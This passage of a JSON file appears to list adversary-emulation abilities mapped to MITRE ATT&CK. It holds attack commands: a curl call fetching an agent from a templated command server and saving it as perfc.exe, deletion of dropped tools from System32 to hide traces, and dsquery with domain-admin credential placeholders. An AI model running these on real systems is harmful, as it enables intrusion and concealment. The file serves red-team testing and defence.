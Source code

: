 ```json
    },
    {
      "ability_id": "65639630-733c-4179-8543-2c64cb577ca0",
      "platform": "windows",
      "commands": {
        "cmd": "taskkill /F /IM mslog.exe\n"
      },
      "privilege": "Unknown",
      "tactic": "credential-access",
      "technique": "Input Capture: Keylogging",
      "attack_id": "T1056.001"
    },
    {
      "ability_id": "6222bcab-b7ec-4523-a236-273d48270649",
      "platform": "windows",
      "commands": {
        "cmd": "dsquery.exe computer -s #{dc.target.host} -u #{domain.admin.name} -p #{domain.admin.password}\n"
      },
      "privilege": "Unknown",
      "tactic": "discovery",
      "technique": "Remote System Discovery",
      "attack_id": "T1018"
    },
    {
      "ability_id": "d91962e6-cb75-4f29-b2ce-36db15415e40",
      "platform": "windows",
      "commands": {
        "cmd": "del /Q C:\\Windows\\System32\\oradump.exe C:\\Windows\\System32\\mslog.exe C:\\Windows\\System32\\mslog.txt\n"
      },
      "privilege": "Unknown",
      "tactic": "defense-evasion",
      "technique": "Indicator Removal on Host: File Deletion",
      "attack_id": "T1070.004"
    },
    {
      "ability_id": "2093de68-db55-4c75-82d1-3abd5fc58028",
      "platform": "linux",
      "commands": {
        "proc": "pkill xfreerdp\n"
      },
      "privilege": "Unknown",
      "tactic": "lateral-movement",
      "technique": "Remote Services: Remote Desktop Protocol",
      "attack_id": "T1021.001"
    },
    {
      "ability_id": "690e889f-5844-473e-98c5-c90c9f1772dc",
      "platform": "linux",
      "commands": {
        "sh": "mkdir -p sw_tools;\nserver=\"#{server}\";\ncurl -s -X POST -H \"file:sandcat.go\" -H \"platform:windows\" -H \"server:$server\" -H \"group:arrakis\" $server/file/download > perfc.exe;\nchmod +x perfc.exe;\ncp SharpNP.dll ./sw_tools/;\nmv perfc.exe ./sw_tools/;\n"
      },
      "privilege": "Unknown",
      "tactic": "command-and-control",
      "technique": "Ingress Tool Transfer",
      "attack_id": "T1105"
    },
    {
      "ability_id": "2f107b88-065f-4d91-9d46-212212b235d5",
      "platform": "linux",
```